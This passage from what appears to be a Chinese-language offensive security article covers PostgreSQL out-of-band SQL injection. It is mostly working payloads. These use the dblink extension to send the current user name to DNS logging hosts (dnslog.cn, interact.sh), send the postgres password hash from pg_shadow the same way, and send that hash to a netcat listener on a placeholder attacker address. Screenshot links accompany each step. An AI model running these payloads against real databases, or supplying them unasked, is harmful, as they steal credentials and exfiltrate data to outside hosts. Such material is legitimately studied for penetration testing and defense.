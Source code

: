 # [0x05 PostgreSQL 带外数据](#toc_0x05-postgresql)

```plain
-- 开启 dblink 扩展
CREATE EXTENSION dblink

-- 获取当前数据库用户名称
SELECT * FROM dblink('host='||(select user)||'.djw0pg.dnslog.cn user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

[![21.png](assets/1698894509-85361254bc80e3de3fe0d922f6114dfb.png)](https://storage.tttang.com/media/attachment/2022/04/13/b147c57d-849d-43a3-8b1f-7f8842a98c2a.png)

```plain
-- 查询当前密码
SELECT * FROM dblink('host='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')||'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);
```

[![34.png](assets/1698894509-5db0a601435aa8ec67ac72ba958ce5d0.png)](https://storage.tttang.com/media/attachment/2022/04/13/33b8e5bd-6bd9-4cac-8303-fb0e6c1cc4b2.png)

```plain
-- nc 监听
nc -lvv 4444

select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
```

[![35.png](assets/1698894509-06be7b5f2c368485a77b29d57f28a239.png)](https://storage.tttang.com/media/attachment/2022/04/13/0209275e-091e-4aa7-927b-58e2c9141826.png)
